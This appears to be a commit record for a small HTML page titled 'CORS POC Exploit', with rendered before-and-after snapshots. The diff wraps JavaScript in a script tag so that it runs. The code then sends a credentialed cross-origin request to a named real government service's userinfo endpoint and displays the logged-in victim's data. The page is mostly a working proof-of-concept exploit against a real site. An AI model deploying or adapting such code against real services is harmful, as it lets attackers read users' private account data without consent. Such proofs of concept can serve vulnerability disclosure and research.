

Before and after one commit to 0x240x23elu/cross, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,8 +2,10 @@
 <body>
 <center>
 <h2>CORS POC Exploit</h2>
-<h3>Extract SID</h3>
+<h3>Extract S</h3>
+<script>
 var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://acdhub.service.ncsc.gov.uk/userinfo',true); req.withCredentials = true; req.send('{}'); function reqListener() { alert(this.responseText); };
+</script>
  </center>
 </body>
 </html>
```
